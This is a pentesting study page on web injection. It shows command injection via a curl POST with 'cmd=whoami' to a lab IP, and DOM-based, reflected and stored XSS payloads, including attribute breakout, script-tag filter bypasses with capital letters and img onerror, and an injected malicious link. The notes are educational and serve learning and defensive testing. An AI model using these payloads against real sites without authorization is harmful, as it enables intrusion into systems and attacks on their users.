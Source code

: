 # Injection

Occurs when we find a way of sending html, css, js code, database petitions and others, via a petition or URL of a website.

**Example:**

* Manage a petition using system()

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with cmd=$command, this will let us now if we can have access to a terminal of the machine
curl -X POST http://192.168.20.40:8000/?msg -d "cmd=whoami"
```
{% endcode %}

***



## <mark style="color:green;">Cross-site Scripting</mark>

&#x20;XSS scripting allows execution of javascript maliciuos code

### DOM-based

Mutate html document of a page

* Example

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">#We select language in a slider and is reflected on url
http://url?language=en

#Check html of page
&#x3C;select name="default">
<strong>  &#x3C;script>
</strong><strong>  ...
</strong>    document.write("&#x3C;option value='"+lang+"'>"+decodeURI(lang) + "&#x3C;/option>");
  ...
  &#x3C;/script>
&#x3C;/select>

#Use ' to close "value" parameter and then close tags
http://url?language='>&#x3C;/option>&#x3C;/select>

'#Then create whatever tag
http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;h1>HACKED&#x3C;/h1>

'#Even js code
http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;script>if(window.confirm('HACKED\nTry TO CALL FOR HELP?')){window.open('https://www.youtube.com/watch?v=dQw4w9WgXcQ');};&#x3C;/script>
</code></pre>

***

* When it is script tag filtering

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Use image tag,putting a bad source cause a error, we handle it with 'onerror' parameter that let us insert JS Code
http://url?language='></option></select><img src=x onerror='alert("HACKED")'/>
```
{% endcode %}

***

### Reflected:&#x20;

When URL or form parameters are displayed on screen of the page

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We made a get to http://192.168.20.40:8000/?msg=Hello
# The site Return "Hello" in any part of the html
#Then we could do something like this to inject code
<strong>curl http://192.168.20.40:8000/?msg=&#x3C;script>$payload&#x3C;/script>
</strong></code></pre>

***

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We insert Hello in a formulary
# The site Return "Hello" in any part of the html
#Then we could fill the form to inject code
<strong>&#x3C;script>$payload&#x3C;/script>
</strong><strong>
</strong><strong>#Something tag filter can be by pass by using capital letters
</strong>&#x3C;SCRIPT>$payload&#x3C;/SCRIPT>

#Or using img tag
&#x3C;img src=x onerror='alert("HACKED")'/>
</code></pre>

***

### Stored:

The input of values is saved by the web and display to anyone who browse to the site. Maliciuos code in the same way will remain globally in the web site.

* A formulary show a list of entries

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We insert name and comment in the formulary
#Every time an insertion is done the website update a list with the entries that is displayed to every user
#Then we could fill the form to inject code
<a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">CLICK HERE TO WIN A PRIZE</a>
```
{% endcode %}

***

